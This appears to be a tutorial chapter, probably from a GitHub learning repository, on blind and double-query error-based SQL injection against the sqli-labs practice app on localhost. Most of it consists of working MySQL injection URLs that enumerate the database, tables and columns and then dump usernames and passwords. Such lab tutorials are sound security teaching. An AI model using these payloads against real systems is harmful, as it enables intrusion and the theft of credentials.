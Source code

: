 # Chapter-04

This section will include the basics for blind sql injection. It will cover a few topics that will lay the foundation for blind sqli injection. 

## Work around for cases where comments can't be used

In some cases we may not not be able to use comments in the url to perform sql injection. In such cases we may have to resort to using ```AND``` / ```OR``` operator with appropriate closing element.

Here is an example from lesson-1 of sqli-labs - 

The url will look like this - 

```
http://localhost/sqlilabs/Less-1/?id=1' or '1
```

or 

```
http://localhost/sqlilabs/Less-1/?id=1' and '1
```

Let us now also have a look at the SQL query which gets executed at the backend. 

The given SQL query at the back-end looks like this - 

```
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```

```$id``` gets replaced by the id that the user specifies at the url. 

We inject either ```1' or'1``` or ```1' and '1``` into the url. The sql query after adding ```1'``` and balancing it with ```'1``` looks somewhat like this -  

```
SELECT * FROM users WHERE id='1' or '1' LIMIT 0,1
```

or 

```
SELECT * FROM users WHERE id='1' and '1' LIMIT 0,1
```

:warning: Adding ```'1``` with ```AND``` or ```OR``` balances the SQL Query at the backend. 

## A few roadbumps 

Using ```AND``` or ```OR``` in the sql query has its own drawbacks. Some of them are mentioned below - 

1.  ```ORDER BY``` clause doesn't work well with ```AND``` and ```OR```. Using order-by in such a case will result in no error being thrown irrespective of the number specified in the order by clause.

    Workaround for such a case would be brute force with ```select 1, 2, 3 ...n``` and find the number of columns used in the query. 

1.  ```SELECT * FROM``` also does not work. The ```FROM``` clause when used with ```AND``` or ```OR``` results in an error being thrown. The work around for this error would be to use ```Double SQL injection``` which is explained in detail below. 

## Double Query SQL Injection

The double query SQL injection is a technique that uses a bug in ```MySql``` to extract information. The bug causes the mysql query to throw an error which contains the information that we require. 

The bug is caused when we use ```rand()```, ```count()``` and ```group by``` clause together. 

[This](https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c) blog explains in great detail how to reproduce the bug so that we can exploit it and get the useful information. 

This bug can be reproduced by executing this statement - 

```
select count(*), concat((select database()), floor(rand() * 2)) as hack from information_schema.tables group by hack;
```

:warning: The above statement may have to be executed multiple times to see the error. 

The error message will look somewhat like this - 

```Error Code: 1062. Duplicate entry 'security1' for key '<group_key>'```

If you notice carefully, the error message contains the name of the database, i.e. (security). 

Now, the above query can be further manipulated to get more interesting information.

In order to use this in a URL we will have to make slight modifications to the query which are explained below - 

1.  Since this query will be used with an ```AND``` operator, we will have to wrap our payload within another ```MySql``` statement. Wrapping the query inside another query requires us to use the alias in the wrapper query.

The resultant URL will look somewhat like this in the end - 

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select database()), '+', floor(rand()*2)) as hack from information_schema.tables group by hack) as payload)--+
```

The above ```URL``` can be further modified to obtain the table column names. 

The table names can be obtained by changing the ```limit 0,1``` term. We get different values by choosing different terms such as ```limit 1,1```, ```limit 2,1``` or ```limit 3,1```. 

The ```URL``` will look somewhat like this - 

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select table_name from information_schema.tables where table_schema=database() limit 0,1), '+', floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

The column names can be obtained by following a similar strategy. The ```URL``` for it will look somewhat like this - 

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select column_name from information_schema.columns where table_name='users' limit 0,1), '+', floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

Again, changing the ```limit 0,1``` term yields different results. 

Finally, once we know the column names and the table names, we can dump both the username and password.

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select password from users limit 0,1), " -- ", floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

```
http://localhost/sqlilabs/Less-1/?id=3' and (select 1 from (select count(*), concat((select username from users limit 0,1), " -- ", floor(rand()*4)) as hack from information_schema.tables group by hack) as payload)--+
```

We can also do something like this - 

```
http://localhost/sqlilabs/Less-1/?id=3' and 0 union select 1, group_concat(username), group_concat(password) from users;
```

That will be all for Double Query SQL Injection. :star:

## :star2: Resources 

1.  https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c
